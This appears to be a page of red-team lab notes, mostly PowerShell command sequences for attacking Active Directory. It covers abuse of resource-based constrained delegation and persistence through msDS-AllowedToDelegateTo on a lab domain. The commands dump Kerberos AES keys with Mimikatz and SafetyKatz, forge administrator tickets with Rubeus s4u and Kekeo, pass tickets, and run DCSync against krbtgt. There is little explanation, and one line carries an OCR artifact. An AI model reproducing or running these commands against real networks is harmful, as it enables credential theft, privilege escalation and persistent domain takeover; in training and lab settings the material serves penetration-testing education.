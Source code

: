 ### Resource Based Constrained Delegation

```powershell
# 1. Enumerate if we have Write permissions over any object
# PowerView
Find-InterestingDomainAcl | ?{$_.identityreferencename -match 'mgmtadmin'}

# 2. Configure RBCD on us-helpdesk for student machines
# Using AD Module
$comps = 'student1$','student2$'
Set-ADComputer -Identity us-helpdesk -PrincipalsAllowedToDelegateToAccount $comps

# 3. We we can dump the AES Keys of the Students
# Mimikatz
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'

# SafetyKatz Binary
SafetyKatz.exe -Command "sekurlsa::ekeys" "exit"

# 4. Rubeus
Rubeus.exe s4u /user:student1$ /aes256:d1027fbaf7faad598aaeff08989387592c0d8e0201ba453d83b9e6b7fc7897c2 /msdsspn:http/us-helpdesk /impersonateuser:administrator /ptt

# 5. Winrs
winrs -r:us-helpdesk cmd.exe
```

# VII. Domain Persistence

### msDS-AllowedToDelegateTo

##### PowerView

```powershell
Set-DomainObject -Identity devuser -Set @{serviceprincipalname='dev/svc'}
Set-DomainObject -Identity devuser -Set @{"msds-allowedtodelegateto"="ldap/us￾dc.us.techcorp.local"}
Set-DomainObject -SamAccountName devuser1 -Xor @{"useraccountcontrol"="16777216"}

Get-DomainUser –TrustedToAuth
```

##### Kekeo

```powershell
kekeo# tgt::ask /user:devuser /domain:us.techcorp.local /password:Password@123!
kekeo# tgs::s4u /tgt:TGT_devuser@us.techcorp.local_krbtgt~us.techcorp.local@us.techcorp.local.kirbi /user:Administrator@us.techcorp.local /service:ldap/us-dc.us.techcorp.local

Invoke-Mimikatz -Command '"kerberos::ptt TGS_Administrator@us.techcorp.local@us.techcorp.local_ldap~us-dc.us.techcorp.local@us.techcorp.local.kirbi"'

Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\krbtgt"' 
```
